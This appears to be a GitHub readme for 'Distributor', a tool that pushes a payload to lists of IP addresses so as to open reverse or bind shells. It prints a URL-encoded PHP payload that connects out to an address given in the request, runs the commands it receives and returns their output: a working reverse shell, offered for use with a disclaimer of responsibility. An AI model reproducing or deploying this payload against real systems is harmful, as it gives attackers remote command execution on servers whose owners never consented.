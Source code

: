 ## Welcome to Distributor Home Page

Distributor is a Tool that sends Payload to multiple IP's (in a list) or single IP u input. The Payload will create an answer with given commands for a Reverse- / Bind Shell.

### Note

Im not responsible for any Damage you'll do!

```markdown
The Payload Looks like this ==>
`%3c%3f%70%68%70%20%24%61%64%64%72%3d%24%5f%52%45%51%55%45%53%54%5b%27%61%64%64%72%27%5d%3b%24%70%6f%72%74%3d%24%5f%52%45%51%55%45%53%54%5b%27%70%6f%72%74%27%5d%3b%69%66%20%28%21%28%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%24%61%64%64%72%2c%24%70%6f%72%74%29%29%29%64%69%65%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%73%6f%63%6b%29%29%20%20%7b%24%63%6d%64%20%20%3d%20%66%67%65%74%73%28%24%73%6f%63%6b%29%3b%24%70%69%70%65%20%3d%20%70%6f%70%65%6e%28%24%63%6d%64%2c%27%72%27%29%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%70%69%70%65%29%29%66%77%72%69%74%65%20%28%24%73%6f%63%6b%2c%20%66%67%65%74%73%28%24%70%69%70%65%29%29%3b%70%63%6c%6f%73%65%28%24%70%69%70%65%29%3b%7d%66%63%6c%6f%73%65%28%24%73%6f%63%6b%29%3b%3f%3e`

Bevore u look for other tools because Distributor hasn't enough feautures, just Remember:
1. This tool is in developing. For ideas etc. join my DC https://discord.gg/QCY6CuajqK.
2. It will be one of the best payloaders ever!
3. You can help us developing and more.

Fore more details dm me : ASM_Royal#9532
```

### Showcase

![unknown](https://user-images.githubusercontent.com/89786570/180613217-ce41f9ec-b2b5-440b-a181-c25701de1655.png)

![unknown1](https://user-images.githubusercontent.com/89786570/180613221-552e9fd6-a57c-4327-acb3-fd175fbafecf.png)

![2022-07-23-17-18-58 (1)](https://user-images.githubusercontent.com/89786570/180613955-a4c75eb0-4585-4cfd-b283-750d479dcff0.gif)

